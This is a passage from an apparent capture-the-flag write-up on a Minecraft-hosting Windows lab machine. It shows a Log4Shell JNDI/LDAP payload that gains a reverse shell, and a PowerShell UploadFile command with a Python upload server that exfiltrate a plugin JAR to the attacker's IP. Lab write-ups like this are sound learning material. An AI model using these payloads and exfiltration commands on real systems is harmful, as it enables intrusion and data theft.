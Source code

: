 ```bash
${jndi:ldap://10.10.14.122:1389/a}
```

After sending this command, we receive a reverse shell on our netcat listener. We could see a LDAP redirect and the HTTP 'GET' request to download and execute the payload 'Exploit.class' for the initial foothold.


![[Pasted image 20240219013917.png]]


![[Pasted image 20240219014236.png]]


We can do a few checks on the system to view files, assessable directories, and current privileges.

![[Pasted image 20240219014403.png]]

We've got foothold as a service account `crafty\svc_minecraft` and landed in a Minecraft service directory `C:\users\svc_minecraft\server` . Viewing the files and paths for the Minecraft service hosted, we see few JAR files, and one of them is in the \plugins path.
![[Pasted image 20240219021701.png]]


![[Pasted image 20240219021648.png]]


We need to retrieve those files and check what all data we can get.

For exfiltrating the file from the victim machine, we can do as follows:

Note: The victim host doesn't have a firewall or antivirus configured.

Setup a post HTTP server and host it on the attacker machine:

```bash
sudo python3 SimpleHTTPServerWithUpload.py -b 10.10.14.122 1234
```

On the victim machine, we can use PowerShell to upload the file to the server.

Note: Navigate to the file where the file is located and execute this, or provide the complete file path.

Start PowerShell:

```bash
powershell -ep bypass
```

Upload the file to the server:

```bash
powershell (New-Object System.Net.Webclient).UploadFile('http://10.10.14.122:1234/', 'playercounter-1.0-SNAPSHOT.jar')
```

Verify by checking file hashes on both hosts to check if the file was transferred successfully:

Check file hash on PowerShell (Victim):
